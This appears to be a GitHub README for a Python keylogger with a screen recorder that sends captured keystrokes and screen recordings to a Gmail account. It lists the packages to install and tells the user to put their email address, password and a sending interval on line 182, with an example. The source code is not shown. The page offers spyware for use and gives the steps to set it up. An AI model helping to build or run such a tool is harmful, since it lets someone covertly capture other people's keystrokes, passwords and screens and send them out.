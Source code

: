 # Keylogger with screen recorder
A keylogger that sends logs on email and records screen.

# Installation

This script requires numpy, pyautogui, opencv, requests, pynput and pypiwin32.

Install packages from console

```bash
pip install numpy pyautogui opencv-python requests pynput pypiwin32
```

# Instructions

-This script requires continuous Internet connection

- Change 182 line in Python file to set your email and password **(ONLY GMAIL MAILBOX)**
```python
182. e = SendEmail('YOUR_EMAIL', 'YOUR_PASSWORD', TIME)
```
**Remember to set the frequency of sending emails on your mailbox by changing the TIME value**

The TIME value is expressed in seconds

**YOU NEED TO ALLOW LESS SECURE APPS ON YOUR GOOGLE ACCOUNT BEFORE USING THIS SCRIPT. YOU CAN DO IT HERE: https://myaccount.google.com/lesssecureapps**


> Example

```python
182. e = SendEmail('mailbox@gmail.com', 'password1', 10)
```

- Run script
